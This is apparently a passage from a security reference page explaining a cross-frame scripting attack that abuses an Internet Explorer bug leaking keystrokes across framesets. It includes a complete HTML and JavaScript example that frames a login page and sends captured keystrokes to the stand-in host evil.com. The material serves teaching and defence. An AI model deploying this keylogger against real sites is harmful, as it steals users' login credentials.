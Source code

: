 ## Examples

### XFS Attack Against IE

To exploit the IE bug which leaks keyboard events across framesets, an
attacker may create a web page at evil.com, which the attacker controls,
and include on the evil.com page a visible frame displaying the login
page for example.com. The attacker can hide the frame's borders and
expand the frame to cover the entire page, so that it looks to the
browser user like they are actually visiting example.com The
attacker registers some JavaScript in the main evil.com page which
listens for all key events on the page. Normally, this listener would be
notified of events only from the main evil.com page -- but because of
the browser bug, this listener is notified also of events from the
framed example.com page. So every key press the browser user makes in
the example.com frame, while trying to log into example.com, can be
captured by the attacker, and reported back to evil.com:

```html
<!-- http://evil.com/example.com-login.html -->
<head>
<script>
// array of user keystrokes
var keystrokes = [];
// event listener which captures user keystrokes
document.onkeypress = function() {
    keystrokes.push(window.event.keyCode);
}
// function which reports keytrokes back to evil.com every second
setInterval(function() {
    if (keystrokes.length) {
        var xhr = newXHR();
        xhr.open("POST", "http://evil.com/k");
        xhr.send(keystrokes.join("+"));
    }
    keystrokes = [];
}, 1000);
// function which creates an ajax request object
function newXHR() {
    if (window.XMLHttpRequest)
        return new XMLHttpRequest();
    return new ActiveXObject("MSXML2.XMLHTTP.3.0");
}
</script>
</head>
<!-- re-focusing to this frameset tricks browser into leaking events -->
<frameset onload="this.focus()" onblur="this.focus()">
<!-- frame which embeds example.com login page -->
<frame src="http://example.com/login.html">
</frameset>
```
